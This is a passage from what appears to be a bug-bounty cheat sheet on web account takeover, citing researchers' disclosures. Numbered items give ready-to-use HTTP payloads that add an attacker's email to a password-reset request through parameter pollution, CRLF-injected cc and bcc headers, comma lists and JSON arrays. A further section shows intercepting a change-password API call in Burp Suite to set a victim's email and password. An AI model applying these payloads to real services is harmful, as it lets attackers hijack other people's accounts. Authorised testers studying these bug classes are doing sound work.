 3. Add attacker email as second parameter using |
```bash
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
4. Add attacker email as second parameter using cc
```bash
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
5. Add attacker email as second parameter using bcc
```bash
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
6. Add attacker email as second parameter using ,
```bash
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
7. Add attacker email as second parameter in json array
```bash
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

### Reference
* https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
* https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
* https://twitter.com/HusseiN98D/status/1254888748216655872

## [4] Full Account Takeover via Changing Email And Password of any User through API Parameters
### Exploitation
* Attacker have to login with their account and Go to the Change password function
* Start the Burp Suite and Intercept the request
* After intercepting the request sent it to repeater and modify parameters Email and Password
```bash
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```

### Reference
* https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240
